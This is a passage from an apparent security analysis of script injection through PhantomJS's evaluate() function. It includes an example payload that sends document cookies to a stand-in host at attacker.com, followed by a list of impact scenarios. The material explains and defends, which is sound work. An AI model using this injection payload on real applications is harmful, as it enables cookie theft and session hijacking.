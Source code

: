 ```javascript
});
```

An attacker could provide the following input for `userName`:

```
"; window.location='http://attacker.com/exfiltrate?cookie='+document.cookie; "
```

This input, when injected into the `evaluate()` function, would result in the following script being executed:

```javascript
function(name) {
  document.title = "Screenshot for: "; window.location='http://attacker.com/exfiltrate?cookie='+document.cookie; ";
}
```

This injected script would:

1.  Attempt to set the title (partially successful, but broken due to the injection).
2.  **Redirect the PhantomJS browser to `attacker.com/exfiltrate` and append the document's cookies to the URL.** This exfiltrates cookies to the attacker's server.

#### 4.3. Potential Impact Scenarios (Beyond Initial Description)

The impact of successful script injection via `evaluate()` can be far-reaching and extend beyond simple data exfiltration:

*   **Sensitive Data Exfiltration:** As demonstrated in the example, attackers can steal cookies, local storage data, session tokens, and any other information accessible within the page's JavaScript context. This can lead to account takeover, session hijacking, and exposure of confidential information.
*   **Page Manipulation and Defacement:** Attackers can modify the content of the rendered page, inject malicious content, redirect users to phishing sites, or deface the application's output.
*   **Cross-Site Scripting (XSS) in Rendered Output:** If the PhantomJS output (e.g., rendered HTML or screenshots) is used in other parts of the application or displayed to users, the injected script can become persistent XSS, affecting users who interact with this output.
*   **Server-Side Exploitation (Indirect):** While direct Remote Code Execution (RCE) on the server via `evaluate()` is less likely, it's not impossible. Attackers could potentially:
    *   Exfiltrate server-side secrets or credentials embedded in the rendered page or accessible through the PhantomJS environment.
    *   Use PhantomJS as a proxy to probe internal network resources or exploit vulnerabilities in backend systems if PhantomJS has network access.
    *   In rare cases, if PhantomJS itself has vulnerabilities or if the application environment is misconfigured, RCE might be achievable through complex injection payloads.
*   **Denial of Service (DoS):** Attackers can inject scripts that consume excessive resources (CPU, memory) within PhantomJS, leading to performance degradation or crashes, effectively causing a DoS.
*   **Information Disclosure:**  Attackers can gather information about the application's internal workings, dependencies, and configurations by probing the environment from within the PhantomJS context.
